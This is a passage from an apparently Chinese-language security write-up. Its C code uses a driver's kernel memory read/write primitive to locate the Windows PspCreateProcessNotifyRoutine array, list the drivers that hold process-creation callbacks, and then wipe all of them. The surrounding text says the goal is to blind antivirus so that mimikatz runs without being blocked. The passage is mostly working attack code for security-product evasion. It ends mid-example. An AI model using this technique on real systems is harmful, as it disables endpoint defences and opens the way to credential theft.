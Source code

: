 ```bash

    INT64 PspCreateProcessNotifyRoutineAddress = PspSetCallbackssNotifyRoutineAddress + PspOffset + 7;

    return PspCreateProcessNotifyRoutineAddress;
}

int main()
{   
    Process = InitialDriver();
    if (!Process) return 0;
    INT64 PspCreateProcessNotifyRoutineAddress = GetPspCreateProcessNotifyRoutineArray();
    if (!PspCreateProcessNotifyRoutineAddress) {
        printf("Exit1\n");
        return 0;
    }
    printf("PspCreateProcessNotifyRoutineAddress: %I64x\n", PspCreateProcessNotifyRoutineAddress);

    INT64 buffer = 0;
    //展示所有注册进程回调的驱动
    printf("注册了进程回调的驱动基地址及其名称: \n----------------------------------------------------\n");
    for (int k = 0; k < 64; k++)
    {
        DriverReadMemery((VOID*)(PspCreateProcessNotifyRoutineAddress +(k * 8)), &buffer, 8);
        if (buffer == 0) continue;
        INT64 tmpaddr = ((INT64)buffer >> 4) << 4;
        DriverReadMemery((VOID*)(tmpaddr + 8), &buffer, 8);
        INT64 DriverCallBackFuncAddr = (INT64)buffer;
        DisplayDriverName(DriverCallBackFuncAddr);
    }
    printf("----------------------------------------------------\n以上不保证完全准确\n");

    //清除全部驱动的进程回调
    BYTE* data = (BYTE*)calloc(1, 1);
    for (int i = 0; i < 64; i++)
    {
        DriverReadMemery(data, (VOID*)(PspCreateProcessNotifyRoutineAddress + (i * 8)), 8);
    }
    printf("[Success] 进程回调清除完成\n");
    system("pause");
}
```

代码中的`DriverReadMemery()` 就是利用驱动进行读写的利用函数，具体实现要根据不同驱动情况来写。此外代码中最后清除的是全部驱动的进程回调，实际环境中需要根据驱动来进行清除，不然会导致系统某些功能出问题（目前发现清除全部会断网）。

以下面一个杀软的进程回调函数为例，一般情况下打开原生的 mimikatz 必然被拦截。
